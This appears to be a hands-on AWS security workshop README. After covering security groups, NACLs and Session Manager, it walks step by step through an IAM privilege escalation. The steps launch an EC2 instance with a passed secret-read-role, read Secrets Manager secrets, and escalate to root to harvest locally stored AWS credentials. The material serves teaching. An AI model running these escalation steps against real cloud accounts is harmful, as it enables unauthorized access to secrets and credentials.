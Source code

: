 # Basic cloud security
Today we will follow the tracks of a reckless engineer to read his darkest secrets. We will start on the workstation which you can find at https://lab.devopsplayground.org/

## Getting through the doors
Once you open your terminal, you can see the workdir directory with the `target-instance.txt` file where you can see a user and ip address of the server you need to log into. We will let you "guess" the password.
Assuming that you logged in successfully, we are going to stop and look at what we could do better on the account to prevent access to the server.
### Security Group
We are starting with Security groups which are attached to the instance. Allowing all traffic from any source is a dangerous practice and you should limit entries to the trusted sources and the ports actually used by the application/service.

<p align="center">
  <img src="./images/sg.png" />
</p>

Security groups are stateful, therefore allowing incoming traffic allows the response.

See more in the documentation: https://docs.aws.amazon.com/vpc/latest/userguide/security-groups.html

### NACL
Network Access Control Lists allow you to manage traffic within your VPC (applied to subnets), they are evaluated before Security groups and are stateless (You need to allow response traffic separately).

See more in the documentation: https://docs.aws.amazon.com/vpc/latest/userguide/vpc-network-acls.html

### Systems Manager
Lastly - it is worth asking ourselves the question if allowing to access the instance via ssh is absolutely necessary. AWS allows you to use a session manager for console access to the server and use IAM to control the access to the instances.

See more in the documentation https://docs.aws.amazon.com/systems-manager/latest/userguide/session-manager.html

## IAM privilege escalation
### Discover available credentials 
Once we are logged in to the ec2 instance we can discover if any IAM and API credentials are available. Let's execute:
```
aws sts get-caller-identity
```
Your output should look like the following:
<p align="center">
  <img src="./images/get-caller-identity.png" />
</p>
We can see that the instance assumed role dpg-funny-panda-workstation. Let's see what permissions are attached to this role. We can do this by executing:

```bash
aws iam list-attached-role-policies --role-name dpg-funny-panda-workstation
```
Your output should look like this: 

<p align="center">
  <img src="./images/list-policies.png" />
</p>

We can see one IAM policy attached to the role, let's investigate what permissions are defined in the policy.
First, we need to look into the policy:
```
aws iam get-policy --policy-arn arn:aws:iam::204521158369:policy/dpg-funny-panda-workstation
```

Your output should look like below:

<p align="center">
  <img src="./images/get-policy.png" />
</p>

Note the default policy version and execute:
```
aws iam get-policy-version --policy-arn arn:aws:iam::204521158369:policy/dpg-funny-panda-workstation --version-id v3
```
You should see the full IAM policy and your output should start with below:

<p align="center">
  <img src="./images/instance-policy.png" />
</p>

The above policy allows us ec2 actions as as to pass secret-read-role. To investigate what policies this role has and what permissions are defined for this role, let's execute the three commands below
```
aws iam list-attached-role-policies --role-name secret-read-role
aws iam get-policy --policy-arn arn:aws:iam::204521158369:policy/get-playground-secret
aws iam get-policy-version --policy-arn arn:aws:iam::204521158369:policy/get-playground-secret --version-id v1
```
Your last output should look like
<p align="center">
  <img src="./images/secret-policy.png" />
</p>


We can see that the policy allows us to read one of the secrets on the account. To do so we can create a new EC2 instance and attach a secret-read-role to the instance profile. Once connected to the new server we can read the secret. 

First, let's create a new key-pair:
```
aws ec2 create-key-pair \       
   --key-name funny-panda \
   --query 'KeyMaterial' --output text > ~/.ssh/funny-panda
```

Now it's time to find out more about our current instance and to deploy our new server in the same network. We can find our instance ID by executing:
```
aws sts get-caller-identity
```
Once we grab the id we can execute:
```bash
aws ec2 describe-instances --instance-ids i-02baacbaf617999e1
```
Your output should be a JSON file with the instance configuration like below.

<p align="center">
  <img src="./images/ec2.png" />
</p>

Note the AMI ID, Security group id, and subnet ids. As next step, let's create a new EC2 instance with the command below:
```bash
aws ec2 run-instances \
    --image-id ami-00caa7df15d2e771f \
    --count 1 \
    --instance-type t2.micro \
    --key-name funny-panda \
    --security-group-ids sg-09587dd14a1f9db3d \
    --subnet-id subnet-0dcf0c3a01abc9808 \
    --block-device-mappings "[{\"DeviceName\":\"/dev/sdf\",\"Ebs\":{\"VolumeSize\":30,\"DeleteOnTermination\":false}}]" \
    --tag-specifications 'ResourceType=instance,Tags=[{Key=Name,Value=funny-panda}]' 'ResourceType=volume,Tags=[{Key=Name,Value=funny-panda-disk}]'
```
Once your new instance is created - note its IP address. Next, let's create an instance profile.
```bash
aws iam create-instance-profile \
 --instance-profile-name funnypanda
```
and attach the role to the profile
```bash
aws iam add-role-to-instance-profile \
--instance-profile-name funnypanda \
--role-name secret-read-role
```
And finally, associate the profile with our instance:
```bash
aws ec2 associate-iam-instance-profile --iam-instance-profile Name=funnypanda --instance-id i-0516aa13e97073823
```
Now our new server is ready to be used. Let's modify the permissions of our key before we use it to ssh to the server:
```
chmod 400 ~/.ssh/funny-panda
```
And ssh to the target server:
```
ssh ec2-user@@10.0.10.156 -i ~/.ssh/funny-panda
```
Once logged in we can try our last command:
```
aws secretsmanager get-secret-value --secret-id playground-secret
```

## OS privilage escalation + API keys
So we managed to read one of the secrets, but there is still one more around the corner. Let's get back to our target instance and see if our user is added to the sudoers list.
```bash
sudo su
```
Now once we are a root user let's try:
```
aws sts get-caller-identity
```
You should notice that this time we assumed a different AWS entity, AWS user, like below:

<p align="center">
  <img src="./images/root.png" />
</p>

It looks like there are locally stored credentials for the root user which take precedence over the attached role. We can confirm that by trying

```bash
env | grep AWS
```
Now let's see what permissions we have attached to this user.

```bash
aws iam list-attached-user-policies --user-name dpg-sweet-panda
```
Looks like there are no policies attached:
<p align="center">
  <img src="./images/user-policies.png" />
</p>
Let's see if the user has any inline policy then.

```bash
aws iam list-user-policies --user-name dpg-sweet-panda
```
<p align="center">
  <img src="./images/user-inline.png" />
</p>
There is an inline policy attached to this user - let's investigate further

```bash
aws iam get-user-policy --user-name dpg-sweet-panda --policy-name policy-dpg-sweet-panda
```
You should notice a familiar statement in the policy
<p align="center">
  <img src="./images/user-secret.png" />
</p>
Lastly, let's reveal the last part be executing:

```bash
aws secretsmanager get-secret-value --secret-id User_secret
```
